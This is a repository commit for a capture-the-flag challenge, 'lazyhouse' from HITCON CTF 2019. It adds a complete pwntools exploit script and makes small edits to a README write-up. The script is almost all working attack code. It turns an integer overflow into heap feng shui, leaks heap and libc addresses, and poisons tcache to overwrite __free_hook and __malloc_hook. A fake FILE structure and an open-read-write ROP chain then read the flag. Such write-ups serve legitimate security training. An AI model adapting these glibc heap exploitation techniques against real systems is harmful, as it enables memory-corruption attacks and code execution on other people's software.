

Add files via upload

diff --git a/hitconctf2019_lazyhouse/solve.py b/hitconctf2019_lazyhouse/solve.py
@@ -1,0 +1,134 @@
+from pwn import *
+
+context.arch = "amd64"
+
+r = process("./lazyhouse", env = {'LD_PRELOAD' : './libc.so.6'}, stdin = PTY)
+
+def buy(index, size, content, inf = False):
+    r.sendlineafter("choice: ", "1")
+    r.sendlineafter("Index:", str(index))
+    r.sendlineafter("Size:", str(size))
+    if inf:
+        pass
+    else:
+        r.sendafter("House:", content)
+
+def show(index):
+    r.sendlineafter("choice: ", "2")
+    r.sendlineafter("Index:", str(index))
+
+def sell(index):
+    r.sendlineafter("choice: ", "3")
+    r.sendlineafter("Index:", str(index))
+
+def upgrade(index, content):
+    r.sendlineafter("choice: ", "4")
+    r.sendlineafter("Index:", str(index))
+    r.sendafter("House:", content)
+
+def buy_super(content):
+    r.sendlineafter("choice: ", "5")
+    r.sendafter("House:", content)
+
+libc = ELF("./libc.so.6")
+#flag = '/home/lazyhouse/flag\0'
+flag = './flag\0'
+
+# Get infinite money
+buy(0, 0x100000000000000ff/0xda, '', inf = True)
+sell(0)
+# Setup for later
+# Buy and sell 3 chunks of size 0x3a0, also craft some values
+for i in range(3):
+    buy(0, 0x3a0, 'A'*224 + p64(0x300) + p64(0x2c0))
+    sell(0)
+# Buy and sell 1 chunk of size 0x390 and 1 chunk of size 0x217
+buy(0, 0x390, 'A')
+sell(0)
+buy(0, 0x217, 'A')
+sell(0)
+# Fill 0x1c0 tcache bin
+for i in range(7):
+    buy(0, 0x1c0, 'A')
+    sell(0)
+# Fill 0x2f0 tcache bin
+for i in range(7):
+    buy(0, 0x2f0, 'A')
+    sell(0)
+# Setup initial state of step 3
+buy(0, 0x80, 'A')
+buy(1, 0x80, 'B')
+buy(2, 0x80, 'C')
+buy(3, 0x80, 'D')
+buy(4, 0x4b0, 'E'*16 + p64(0) + p64(0x4a1))
+buy(5, 0x80, 'F')
+buy(6, 0x270, 'G')
+sell(6)
+# Upgrade [0] and overwrite [1]'s size
+upgrade(0, 'A'*0x80 + p64(0) + p64(0x1d1))
+# Sell and re-buy [1] to overwrite [2] and [3]'s sizes
+sell(1)
+buy(1, 0x1c0, 'B'*0x80 + p64(0) + p64(0x21) + p64(0)*3 + p64(0x71) + 'B'*0x60 + p64(0) + p64(0x31) + p64(0)*5 + p64(0x61) + 'B'*0x50 + p64(0) + p64(0x4c1))
+# Sell [2], [3] and [4]
+sell(2)
+sell(3)
+sell(4)
+# Show [1], leak heap and libc
+show(1)
+leak = r.recvuntil('$')
+heap = u64(leak[0x98:0x98+8]) - 0x10
+unsorted_head = u64(leak[0x1b0:0x1b0+8])
+libc_base = unsorted_head - 1985696
+libc.address = libc_base
+log.info('heap: ' + hex(heap))
+log.info('libc: ' + hex(libc_base))
+# Some useful values ([1], [2], [3], [4] and fake's addresses and libc's gadgets)
+first = heap + 0x3560
+second = heap + 0x3600
+third = heap + 0x3690
+fourth = heap + 0x3710
+fake = heap + 0x40
+rdi = libc.address + 0x26542
+rsi = libc.address + 0x26f9e
+rdx = libc.address + 0x12bda6
+rax = libc.address + 0x47cf8
+syscall = libc.address + 0xcf6c5
+xchg_eax_edi = libc.address + 0x145585
+# Upgrade [1] to setup step 4
+upgrade(1, flag.ljust(0x90, "B") + p64(0) + p64(0x21) + p64(fourth) + p64(fake) + p64(0x20) + p64(0x70) + 'B'*0x60 + p64(0) + p64(0x31) + p64(fake) + p64(unsorted_head) + p64(0) * 2 + p64(0x30) + p64(0x60) + 'B'*0x40 + p64(0) + p64(0x4c1) + p64(unsorted_head) + p64(second))
+flag_addr = first + 0x10
+# Build fake FILE struct
+fd = fit({
+    0x0: 0x800,
+    0x10: libc.symbols['environ'],
+    0x20: libc.symbols['environ'],
+    0x28: libc.symbols['environ'] + 8,
+    0x38: libc.symbols['__malloc_hook'],
+    0x40: libc.symbols['__malloc_hook'] + 8,
+    0xc0: p32(0xffffffff),
+    0xd8: libc.symbols['_IO_file_jumps']
+    }, filler = "\0")
+fd = fd.ljust(0x100,'\0')
+# Buy a house now will result in a chunk at fake, we put fd there and overwrite tcache_entry of 0x220 list to __free_hook
+buy(2, 0x2f0, fd + p64(libc.symbols['__free_hook']))
+# Buy super house will malloc at __free_hook, we overwrite it with __uflow
+buy_super(p64(libc.symbols['__uflow']).ljust(0x217, "S"))
+# Sell will call free() -> __uflow()
+sell(2)
+# Get the stack leak
+stack = u64(r.recv(8)) - 0x290
+log.info("stack: " + hex(stack))
+# Overwrite __malloc_hooks with gets()
+r.send(p64(libc.symbols['gets']))
+# Build open - read - write ROP
+rop = flat(rdi, flag_addr, rsi, 0, rax, 2, syscall)
+rop += flat(xchg_eax_edi, rsi, heap, rdx, 0x100, libc.symbols['read'])
+rop += flat(rdi, 1, rsi, heap, rdx, 0x100, libc.symbols['write'])
+# Call calloc() -> gets() and overwrite its own return address with ROP
+r.sendlineafter("choice: ", "1")
+r.sendlineafter("Index:", "2")
+r.sendlineafter("Size:", str(stack))
+r.sendline(rop)
+
+
+r.interactive()

diff --git a/hitconctf2019_lazyhouse/README.md b/hitconctf2019_lazyhouse/README.md
@@ -30,7 +30,7 @@
 ![leak](leak.png)
 
 
-**Step 4:** Have `Buy()` returns a chunk in `tcache_perthread_struct`, and overwrite the `tcache_entry` of the 0x220 list to `__free_hook`.
+**Step 4:** Have `Buy()` returns a chunk in `tcache_perthread_struct`, and overwrite the `tcache_entry` of the 0x220 list to `__free_hook`. (Note that we crafted so that [2] and [3] are shifted downward by 0x10 bytes because the pointers in `tps` point at the data, not the metadata)
 
 
 ![feng shui](fengshui.png)
@@ -45,13 +45,13 @@ See `solve.py`.
 
 ## More information
 ### About tcache_perthread_struct`
-```
+'''
 struct tcache_perthread_struct
 {
 	char counts[64];
 	tcache_entries *entries[64];
 }
-```
+'''
 - Located somewhere at the start of the heap.
 - `entries` is an array of linked list, one of each size.
 - `counts` is an array of the number of chunks in each linked list.
